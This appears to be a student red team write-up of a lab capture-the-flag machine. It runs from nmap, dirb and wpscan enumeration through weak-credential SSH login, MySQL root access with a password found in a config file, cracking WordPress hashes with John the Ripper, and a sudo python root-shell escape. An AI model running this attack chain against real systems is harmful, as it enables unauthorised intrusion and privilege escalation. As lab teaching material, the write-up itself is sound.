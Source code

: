 **Red Team Assessment (Target 1)**

**1. Scanning**

1. Run An Initial Nmap Scan

Command: nmap -sT -A -p- -Pn -T4 --reason -oA host-1-scan 192.168.1.110

<img src= "https://github.com/SundownRider/Final-Project/blob/main/Images/Red%20Team/Red_1.png" width=50% height=50%>

**2. Enumeration**

2.1 Enumerating SSH (Port 22)

2.1.1 Enumerating The SSH Package Version

<img src= "https://github.com/SundownRider/Final-Project/blob/main/Images/Red%20Team/Red_3.png" width=50% height=50%>

2.2 Enumerating HTTP (Port 80)

2.2.1 Enumerating Hidden Subdirectories

Command: dirb http://192.168.1.110

<img src= "https://github.com/SundownRider/Final-Project/blob/main/Images/Red%20Team/Red_4.png" width=50% height=50%>

2.2.2 Enumerating Wordpress Files And Version

Command: wpscan --url http://192.168.1.110/wordpress

<img src= "https://github.com/SundownRider/Final-Project/blob/main/Images/Red%20Team/Red_7.png" width=50% height=50%>

2.2.3 Enumerating Wordpress Users

Command: wpscan [http://192.168.1.110/wordpress/](http://192.168.1.110) --enumerate u

<img src= "https://github.com/SundownRider/Final-Project/blob/main/Images/Red%20Team/Red_9.png" width=50% height=50%>

2.3 Enumerating NetBIOS (Port 139)

2.3.1 Enumerating The NetBIOS Hostname

Command: nbtscan 192.168.1.110

<img src= "https://github.com/SundownRider/Final-Project/blob/main/Images/Red%20Team/Red_5.png" width=50% height=50%>

2.4 Enumerating SMB (Port 445)

2.4.1 Enumerating SMB Shares

![Red_6.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/4503e3b2521b49d29e7bde803285e47d.png)

Enumeration Summary

1. Target OS - Linux (Debian)

2. SSH Version - Open SSH 6.7

3. Wordpress Version - Wordpress 4.8.18

4. Wordpress Users - Michael, Steven

5. NetBios Hostname - TARGET1

6. SMB Version - Samba 4.2.14

**3. Exploitation**

3.1 Log Into The Machine Using The Weak Credentials For The User Michael

Credentials - michael:michael

![Red_10.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/cc9a3ad16229476b899021a3afa113b9.png)

**Flag 1**

Location: /var/www/html

![Flag_1.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/e44ca6edc19b4a50b67088fb788acfb2.png)

**Flag 2**

Location: /var/www

![Flag_2.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/ec75782c607844e38fce6d7e09594d93.png)

3.2 Enumerate The Apache Web Root

Web Root: /var/www/html

![Flag_4.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/c34bd380a43a4ae8a42f1724cbb9b79f.png)

3.3 Enumerate The Configuration File

![Flag_3.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/c6ac828335fa49ccbfc6b741c7ec0fc7.png)

Credentials Found - root:R@v3nSecurity

3.4 Connect To The MySQL Database

Command: mysql -uroot -pR@v3nSecurity

![MySQL_1.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/a95ed68307494f59b9983beea29c21d1.png)

3.5 Enumerate The Wordpress Database

![MySQL_2.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/d2aaa38436664b3ab253f6599d3eb0d5.png)

Hashes Found:

michael:$P$BjRvZQ.VQcGZ1DeiKToCQd.cPw5XCe0

steven:$P$BkJVD9jsxx/loJoqNsURgHiaB23j7W/

**Flag 3**

Location: Wordpress Database -> Wordpress Posts Table

![Flag_3.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/649cb8d04c7f4f57a2159641c08a8c75.png)

3.6 Crack Stevens Password Hash Using John The Ripper

Command: john --wordlist /usr/share/wordlists/rockyou.txt hashes.txt

![John_1.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/8afab7a6979746e48178477bbc3a7cbf.png)

Credentials Found - steven:pink84

3.7 Log Into The Machine Using The Found Credentials

![John_2.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/8727e03a5d6947bf846804225ccadf6b.png)

**4. Local Enumeration**

4.1 Check Sudo Privileges On The Machine

Command: sudo -l

![John_3.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/b796820f0ce04d47aaef0cf3d1d4b161.png)

4.2 Check GTFO Bins For A Python Sudo Exploit

![John_4.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/568ce1b832cb4118902596f3d73ca30a.png)

**5. Privilege Escalation**

5.1 Spawn The System Shell As the Root User

Command: sudo python -c 'import os; os.system("/bin/sh")'

![Root_1.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/7c1ce811b923431ea44a28c86d3e8a2b.png)

**Flag 4**

Location: /root

